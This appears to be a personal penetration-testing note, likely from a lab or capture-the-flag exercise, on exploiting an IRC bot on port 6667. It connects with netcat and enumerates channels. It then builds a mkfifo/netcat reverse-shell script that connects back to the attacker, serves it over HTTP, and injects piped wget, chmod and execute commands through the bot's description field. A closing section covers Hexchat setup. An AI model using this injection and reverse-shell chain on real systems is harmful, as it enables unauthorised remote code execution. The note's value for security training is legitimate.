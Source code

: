 ```bash - kali
nc -nvv $TARGET 6667
```

If getting disconnects with this method, try [[Port 6667 - IRC#Hexchat]].

```bash - kali
nick kali
```

```bash - kali
user kali 8 * kali
```

```bash - kali
list
```

```bash - kali
join #mailAssistant
```

```bash - kali
privmsg spaghetti_BoT !command
```

```bash - kali
privmsg spaghetti_BoT !about
```

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

```bash - kali
python3 -m http.server 80
```

![[rlwrap]]

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |wget $KALI:80/Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |chmod +x Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |./Shelly.sh
```

#### Hexchat
```bash - kali
sudo apt-get install hexchat
```

Add > Edit

![[Pasted image 20220320171011.png | 600]]

Once connected, go to Server > Channel list.

Enter a wildcard `*` in the search bar and hit search.

* May have to decrease the "channels with" value to 1.

![[Pasted image 20220320171419.png | 600]]


